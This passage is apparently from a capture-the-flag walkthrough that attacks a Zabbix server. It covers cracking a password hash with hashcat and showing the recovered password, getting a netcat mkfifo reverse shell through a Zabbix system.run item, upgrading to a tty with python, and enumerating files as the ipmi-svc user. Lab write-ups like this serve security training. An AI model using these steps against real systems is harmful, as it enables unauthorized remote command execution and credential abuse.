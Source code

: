 ```
hashcat -m 7300 -a 0 -o cracked.txt hash /usr/share/wordlists/rockyou.txt
```
## After few seconds it cracked the hash and that cracked hash result stored in cracked.txt. Now use this credential to login on subdomain login form.

```
ilovepumkinpie1
```

# BOOOOOM!!!!! WE SUCESSFULLY LOGIN TO ADMINISTRATOR ACCOUNT.

## Now, we need to get a shell for this go to configuration → Host → Item → Create Item
## Now fill first 3 field on key click on select and select server.run and on command session use netcat reverse shell you get this reverse shell on pentest monkey website.  and on mode you can use wait or nowait we use nowait because wait shell is unstable.

```
system.run[rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f,nowait]
```

## Now start a netcat listener and click on test 
### BOOOMMM!!!! YOU GOT SHELL.
## Now let's get a tty shell using python3.

```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

## we need to esclate to ipmi-svc user this is easy to do just use cracked hash value for password and you get shell of ipmi-svc user.

## Now let's enumerate further.

```
find / -type f -group ipmi-svc ! -path "/proc/*" ! -path "/syc/*" -exec ls -al {} \; 2>/dev/null
```
###Result

```
-rw-r--r-- 1 ipmi-svc ipmi-svc 0 Apr 24  2021 /home/ipmi-svc/.cache/motd.legal-displayed 
-rw-rw-r-- 1 ipmi-svc ipmi-svc 22 Apr 24  2021 /home/ipmi-svc/.vimrc 
-rw-r--r-- 1 ipmi-svc ipmi-svc 220 Apr 24  2021 /home/ipmi-svc/.bash_logout 
-rw-r--r-- 1 ipmi-svc ipmi-svc 807 Apr 24  2021 /home/ipmi-svc/.profile 
-rw-r--r-- 1 ipmi-svc ipmi-svc 3771 Apr 24  2021 /home/ipmi-svc/.bashrc 
-rw-r----- 1 ipmi-svc ipmi-svc 33 Mar 18 05:21 /home/ipmi-svc/user.txt 
-rw-r----- 1 root ipmi-svc 22306 Oct 18 09:24 /etc/zabbix/zabbix_server.conf.dpkg-dist 
-rw-r----- 1 root ipmi-svc 21863 Apr 24  2021 /etc/zabbix/zabbix_server.conf
```
